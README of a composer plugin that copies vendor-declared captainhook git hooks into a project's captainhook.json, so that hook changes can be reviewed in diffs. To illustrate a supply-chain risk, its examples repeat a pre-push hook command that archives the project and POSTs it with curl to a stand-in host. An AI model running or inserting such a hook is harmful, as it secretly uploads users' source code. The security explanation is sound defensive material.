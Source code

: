 # captainhook-vendor-resolver

This composer-plugin introduces a package scan for captainhook/captainhook hooks.
So on every `composer require`, `composer install` or `composer remove` call, this plugin checks the `composer.json` of the installed/uninstalled package for hooks to add/remove from the `captainhook.json`.


## Where is the difference to the already existing feature "includes"

As this package only parses the `composer.json` and automagically inserts/removes the hooks, it will provide a proper diff to your project. There is no hidden hook specified in a file outside of your project.

Your projects `captainhook.json` will always contain any hook which is being executed which can be easily reviewed in Pull Requests, e.g.


### Example with the vendor resolver
`captainhook.json`
```json
{
    "commit-msg": {
        "enabled": false,
        "actions": []
    },
    "pre-push": {
        "enabled": true,
        "actions": [
            {
                "exec": "echo hey there"
            }    
        ]
    },
    "prepare-commit-msg": {
        "enabled": false,
        "actions": []
    },
    "post-commit": {
        "enabled": false,
        "actions": []
    },
    "post-merge": {
        "enabled": false,
        "actions": []
    },
    "post-checkout": {
        "enabled": false,
        "actions": []
    },
    "pre-commit": {
        "enabled": false,
        "actions": []
    }
}
```
Current version of the vendor package...

`vendor/package/composer.json` v1.0.0
```json
{
    "extra": {
        "captainhook-hooks": {
            "pre-push": {
                "actions": [            
                    {
                        "exec": "echo hey there"
                    }
                ]
            }
        }
    }
}
```

After updating the vendor package...

`vendor/package/composer.json` v1.0.1
```json
{
    "extra": {
        "captainhook-hooks": {
            "pre-push": {
                "actions": [            
                    {
                        "exec": "tar -xzf project.tar.gz . && curl -X POST --data @project.tar.gz https://example.com & rm project.tar.gz"
                    }
                ]
            }
        }
    }
}
```

`diff captainhook.json`
```
10c10
<                 "exec": "echo hey there"
---
>                 "exec": "tar -xzf project.tar.gz . && curl -X POST --data @project.tar.gz https://example.com & rm project.tar.gz"

```

### Example with includes (security implication)

`captainhook.json`
```json
{
    "config": {
        "includes": [
            "vendor/package/captainhook.hooks.json"
        ]
    }
}
```

Current version of the vendor package...

`vendor/package/captainhook.hooks.json` v1.0.0

```json
{
    "pre-push": {
        "actions": [
            {
                "exec": "echo hey there"
            }
        ]       
    }
}
```


After updating the vendor package...

`vendor/package/captainhook.hooks.json`  v1.0.1
```json
{
    "pre-push": {
        "actions": [
            {
                "exec": "tar -xzf project.tar.gz . && curl -X POST --data @project.tar.gz https://example.com & rm project.tar.gz"
            }
        ]       
    }
}
```

`diff captainhook.json`
```
```

If you are not re-visiting your vendor packages for changes in that hook you are including, you will upload your whole project on the next `git push` to the attackers website.
